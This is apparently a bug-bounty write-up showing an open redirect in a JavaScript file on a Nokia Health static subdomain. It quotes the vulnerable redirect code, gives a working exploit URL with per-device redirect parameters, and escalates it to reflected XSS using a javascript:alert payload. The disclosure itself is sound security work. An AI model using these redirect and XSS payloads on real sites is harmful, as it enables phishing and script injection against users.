 #### hi when i visiting this link http://static.health.nokia.com/content/crm/redirect_url/ you can see this page
<img src='src/sc.png'>

### hmmm lets reading js files :v
#### in this file `http://static.health.nokia.com/content/crm/redirect_url/js/detect_device.js` you can see this lines

<img src='src/lines.png'>

#### from this code you can redirect the user to any website

#### if the vicitm using ios you need ios_url parameter

```javascript
    var ios_redirect = getURLParameter("ios_url");
    if (ios_redirect != null) {
      location.href = ios_redirect;
    }
```
#### Android you need android_url parameter

```javascript
  else if( userAgent.match( /Android/i ) )
  {
    var android_redirect = getURLParameter("android_url");
    if (android_redirect != null) {
     location.href = android_redirect;
    }
  }
```

#### others os you need desktop_url parameter

```javascript
  {
    var desktop_redirect = getURLParameter("desktop_url");
    if (desktop_redirect != null) {
      location.href = desktop_redirect;
    }
  }
```

#### you can add all parameters in the url like this `http://static.health.nokia.com/content/crm/redirect_url/?desktop_url=http://google.com&android_url=http://google.com&ios_url=http://google.com` boom worked in all devices

#### impact is very low :(
#### hmmm let's change it from open redirect to xss reflected using this payload `javascript:alert('@knassar702')`

<img src='src/xsso.png'>
